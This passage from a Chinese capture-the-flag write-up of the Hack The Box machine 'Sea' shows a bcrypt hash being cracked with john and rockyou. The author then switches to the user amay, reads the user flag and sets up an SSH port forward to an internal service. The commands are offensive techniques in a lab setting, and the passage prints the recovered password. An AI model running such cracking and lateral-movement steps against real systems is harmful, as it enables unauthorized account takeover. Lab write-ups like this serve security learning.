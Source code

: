 ```
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/15 11:15:33": "127.0.0.1",
            "2024\/08\/15 11:11:33": "127.0.0.1",
<SNIP>
```


### 暴破密码

用john和hashcat都识别不了，原来原始字符串中包含了转义符，将其删除后进行暴破
```
└─$ echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash-2y 

└─$ john  --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash-2y    
<SNIP>
mychemicalromance (?)     
<SNIP>
Session completed. 
```

暴破成功，在 `loginURL` 页面输入密码后跳回首页，没有任何不同。想到尝试切换用户，至于哪个用户，其实家目录的权限已经给了提示，于是直接尝试有user flag的 `amay`：
```
www-data@sea:/home/amay$ su - amay
Password: 
amay@sea:~$ id
uid=1000(amay) gid=1000(amay) groups=1000(amay)
```


## flag: user

```
amay@sea:~$ cat user.txt 
087a7<SNIP>cd510
```


## Privilege Escalation

### Internal Recon with amay

基础信息收集一把梭：

- IP、端口：同上
- 用户家目录的隐藏文件：无
- `sudo -l`：没有sudo可执行
- SUID：无特别发现
- cron：`crontab -l`，`ls /etc/cron*`，无特别发现

### SSH tunnel

没发现什么有用的信息，思路再次回到本地端口8080，先配置端口转发（kali的8080端口由于开了Burp所以映射到8081）：
```
└─$ ssh -fNT -L 8081:127.0.0.1:8080 amay@10.10.11.28 
<SNIP>
└─$ ss -noptl                                       
State           Recv-Q          Send-Q                         Local Address:Port                      Peer Address:Port          Process                                      
LISTEN          0               128                                127.0.0.1:8081                           0.0.0.0:*              users:(("ssh",pid=2208024,fd=5))
<SNIP>
```
